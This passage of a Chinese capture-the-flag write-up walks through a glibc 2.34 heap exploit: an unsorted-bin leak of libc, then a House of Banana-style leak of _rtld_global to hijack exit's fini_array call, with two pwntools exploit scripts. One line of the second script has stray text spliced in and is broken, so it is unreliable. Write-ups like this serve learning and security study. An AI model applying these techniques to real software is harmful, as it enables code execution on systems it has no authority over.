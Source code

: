 #### 0x01 Unsorted Bin Leak Libc

​	再次以 `chunk1` 为引导，`fake_chunk0` 和 `chunk2` 为桥梁在 `fake_chunk0` 处构造假 unsorted bin 大小（0x840）的 chunk，并加上 `PREV_INUSE` 标志（0x1），其 `size` 位于原 `person` 结构体的 `phone` 处，连续填充多个 `phone` 字段为 `0x31` 的 chunk（偷懒不想算精确位置），以绕过 unsorted bin prev chunk size 检查。最后 `delete` `fake_chunk0`，**进入 unsorted bin，`show` 获取 main_arena 地址及 libc 基址**。需要注意绕过 `id` 大小检查（与 `next` 冲突）和 `add` 填零（所以这块很绕😀）。

Exp 1：

```python
edit(1, b'\n', cyclic(8) + p64(chunk2_addr)[0:2]) # 暂时恢复
for i in range(50): # 冗余
    add(b'\n', p64(0x31))
    p.recv()
edit(3, cyclic(8) + p64(chunk3_addr), b'\n')
edit(2, p64(49) + p64(50)[0:7], p64(0x841) + p64(fake_chunk0_addr)[0:2])
edit(50, p64(0x841) + p64(51)[0:7], cyclic(8) + p64(fake_chunk1_addr)[0:2])
edit(1, b'\n', cyclic(8) + p64(fake_chunk1_addr)[0:2])
delete(51) # VULN
edit(1, b'\n', cyclic(8) + p64(fake_chunk1_addr)[0:2])
p.recv()
show()
rec = p.recv()
pos = rec.rfind(cyclic(8))
main_arena_addr = u64(rec[pos+30:pos+36] + b'\0\0')
print('main_arena: ' + hex(main_arena_addr))
main_arena_offset = 0x219CE0
free_hook_offset = 0x2204A8
libc_base_addr = main_arena_addr - main_arena_offset
print('libc: ' + hex(libc_base_addr))
```

#### 0x02 Leak `_rtld_global._ns_loaded` (`link_map`)

​	到这里正常解法是利用上述任意写直接覆盖 `malloc_hook` 等，写入 one _gadget，卡了好久突然意识到 glibc 2.34 已移除各种 hook（😩），只好另辟蹊径。打 IO 没学过/太麻烦，现学了一个较简单的高版本打法（好像叫 House of Banana？）。

​	glibc 中链接了 ld.so 中的一个符号 `_rtld_global`，其保存不少用于动态链接的运行时信息。我们主要关注 `_ns_loaded` 字段（offset：0x00），这是一个结构体指针（链表），其指向的字段 **`l_addr`（offset：0x00）保存了程序基址**，通过分析 glibc `exit(int)` 函数源码发现，其执行中途会读取该字段并根据它寻找并**执行 `fini_array` 中存储的函数**（指针）。我们劫持 `_ns_loaded`，将其改为 `堆上一可控地址 - fini_array 偏移量`，再向该可控位置填入 one_gadget 即可。

​	首先泄露地址。用类似 `0x00` 步的方法，泄露出 `_rtld_global` 及 `_ns_loaded` 地址。（虽然网上许多文章都认为这两个地址以及 ld.so 即使开了 ASLR 也与 libc 有固定偏移，或本地与远程不同只需爆破两字节，但我经实验发现本地甚至每次执行都不同🤔。）

Exp 2：

```python
rt_ld_global = libc_base_addr + 0x21A878
edit(1, b'\n', cyclic(8) + p64(fake_chunk0_addr)[0:2])
edit(50, cyclic(8) + p64(51)[0:7], cyclic(8) + p64(fake_chunk1_addr)[0:2])
edit(1, b'\n', cyclic(8) + p64(fake_chunk1_addr)[0:2])
edit(51, cyclic(8) + p64(rt_ld_global - 0x8)[0:7], b'\n')
edit(1, b'\n', cyclic(8) + p64(fake_chunk0_addr)[0:2])
show()
rec = p.recv()
pos = rec.find(b'@')主要是标题
_rtld_global_addr = u64(rec[pos:pos+6] + b'\0\0')
print('_rtld_global addr: ' + hex(_rtld_global_addr))
link_map_addr = _rtld_global_addr + 0x12A0
```
